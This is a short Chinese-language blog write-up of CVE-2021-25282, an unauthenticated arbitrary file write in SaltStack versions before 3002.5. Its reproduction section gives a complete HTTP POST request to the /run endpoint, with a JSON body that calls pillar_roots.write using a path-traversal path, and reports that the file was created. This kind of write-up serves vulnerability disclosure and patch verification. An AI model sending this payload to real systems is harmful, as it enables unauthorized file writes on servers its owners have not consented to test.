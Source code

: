 ```yaml
---
layout: post
title: "（CVE-2021-25282）Saltstack 任意文件写入漏洞"
date: '2021-04-14 09:56:49'
tags:
- cve
- writeup
- hash-import-2023-03-22-16-36
---
```


## 一、漏洞简介

CVE-2021-25282 可在未授权的情况下写入任意数据。

## 二、漏洞影响

SaltStack \< 3002.5

## 三、复现过程

发送数据包来创建文件

    POST /run HTTP/1.1
    Host: www.0-sec.org:8000
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 142
    Content-type: application/json
    
    {
        "eauth":"auto",
        "client":"wheel_async",
        "fun":"pillar_roots.write",
        "data":"test",
        "path":"../../../../../../../../../tmp/vuln"
    }

<figure class="kg-card kg-image-card"><img src="assets/img/blog/imported/cve-2021-25282-16147494041866.jpg" class="kg-image" alt loading="lazy"></figure>

创建文件成功

<figure class="kg-card kg-image-card"><img src="assets/img/blog/imported/cve-2021-25282-16147494192228.jpg" class="kg-image" alt loading="lazy"></figure>